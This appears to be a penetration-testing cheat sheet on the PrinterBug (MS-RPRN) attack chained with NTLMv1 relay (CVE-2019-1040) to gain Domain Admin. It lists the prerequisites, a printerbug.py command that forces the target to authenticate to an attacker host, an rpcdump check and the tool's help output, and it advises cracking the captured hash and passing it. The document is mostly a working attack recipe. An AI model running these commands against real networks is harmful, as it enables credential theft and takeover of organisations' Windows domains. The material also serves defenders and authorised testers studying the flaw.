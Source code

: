 # Krbrelayx - Printerbug

MS-RPRN abuse (PrinterBug), NTLM v1 relay.

## Date

CVE-2019-1040, Patch on 2019-01-11

## Synopsis

Combining the Printer Bug and NTLMv1 to Elevate to Domain Admin.

## Need

1. Any valid domain account credentials

2. Network connectivity to the targets SMB (Server Message Block) Service.

3. The target host must be running the *Print Spooler* service

4. The target host must be allowed to send NTLMv1 responses (cannot be set to enforce NTLMv2 responses)

GPO: `Security Settings\Local Policies\Security Options\Network security`

-      *Send LM& NTLM responses*

-      *Send LM& NTLM – use NTLMv2 session security if negotiated*

*-      SendNTLM responses only*.

Using `Seatbelt` can check the GPO setting with `LanmanCompatibilityLevel`.

## Example

```bash
$ printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
$ rpcdump.py $TARGET | grep -A 6 "spoolsv"
```

When you dump the NTLM v1 hash just crack it, and pass the hash attack.

## Tools Options

```bash
$ python3 printerbug.py -h
[*] Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

usage: printerbug.py [-h] [--verbose] [-target-file file] [-port [destination port]] [-timeout timeout] [-no-ping]
                     [-hashes LMHASH:NTHASH] [-no-pass]
                     target attackerhost

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  attackerhost          hostname to connect to

options:
  -h, --help            show this help message and exit
  --verbose             Switch verbosity to DEBUG

connection:
  -target-file file     Use the targets in the specified file instead of the one on the command line (you must still specify
                        something as target name)
  -port [destination port]
                        Destination port to connect to SMB Server
  -timeout timeout      Specify a timeout for the TCP ping check
  -no-ping              Specify if a TCP ping should be done before connectionNOT recommended since SMB timeouts default to 300
                        secs and the TCP ping assures connectivity to the SMB port

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful when proxying through ntlmrelayx)

```

## Related Links

[MS-RPRN abuse (PrinterBug) - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn)

[Exploiting CVE-2019-1040 - Combining relay vulnerabilities for RCE and Domain Admin - dirkjanm.io](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)

https://www.fortalicesolutions.com/posts/elevating-with-ntlmv1-and-the-printer-bug

